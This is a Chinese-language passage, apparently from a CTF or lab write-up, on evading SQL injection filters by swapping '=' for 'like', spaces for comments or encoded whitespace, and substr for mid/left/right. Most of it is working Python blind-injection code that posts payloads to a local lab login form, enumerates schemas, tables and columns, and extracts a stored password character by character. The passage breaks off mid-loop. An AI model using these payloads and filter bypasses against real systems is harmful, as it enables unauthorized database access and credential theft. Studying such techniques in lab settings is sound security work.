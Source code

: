 绕过

- 过滤`=`，换成`like`
- 过滤空格，`/**/`,反引号，括号，如果是GET传参还可以用`%0a,%0b,%0c,%0d`等
- 过滤`substr`，使用`mid,left,right`函数，函数`MID(string, start, length)`，`LEFT(string, n)`，`RIGHT(string, n)`，string位置替换为子查询，mid函数用法同`substr`一样，left，right是从左或右开始截取n个字符，left,right函数搭配like应该好用一些

测试mid函数，只需要把substr函数替换为mid函数即可

```python
        data = {
        # 爆库
        # "username":f"99'or mid((select group_concat(schema_name) from information_schema.schemata),{i},1) = '{s}'#",
        # 爆表
        # "username":f"99'or mid((select group_concat(table_name) from information_schema.tables where table_schema ='testdb'),{i},1)= '{s}'#",
        # 爆字段
        # "username":f"99'or mid((select group_concat(column_name) from information_schema.columns where table_schema='testdb'),{i},1)='{s}'#",
        # 爆数据
        "username":f"99'or mid((select password from user where username ='flag'),{i},1)='{s}'#",
        # 爆数据
        "password":'1'
        }
```

测试left函数，要测试right函数把username里的left换成right即可

```python
import requests
import time
import string

# 下划线放最后，避免当作mysql统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-{}_'
flag = ""

url = "http://192.168.237.133/sql.php"
i = 1
start = time.time()
while True:
    for s in flags:
        # 测试left
        test_flag = flag + s
        # 测试right
        # test_flag = s + flag 
        data = {
        # 爆库
        # "username":f"99'or left((select group_concat(schema_name) from information_schema.schemata),{i}) like '%{test_flag}%'#",
        # 爆表
        # "username":f"99'or left((select group_concat(table_name) from information_schema.tables where table_schema ='testdb'),{i})like '%{test_flag}%'#",
        # 爆字段
        # "username":f"99'or left((select group_concat(column_name) from information_schema.columns where table_schema='testdb'),{i})like '%{test_flag}%'#",
        # 爆数据
        "username":f"99'or left((select password from user where username ='flag'),{i})like '%{test_flag}%'#",
        # 爆数据
        "password":'1'
        }
        resp = requests.post(url,data=data)
        end = time.time()
        if "登录成功" in resp.text:
```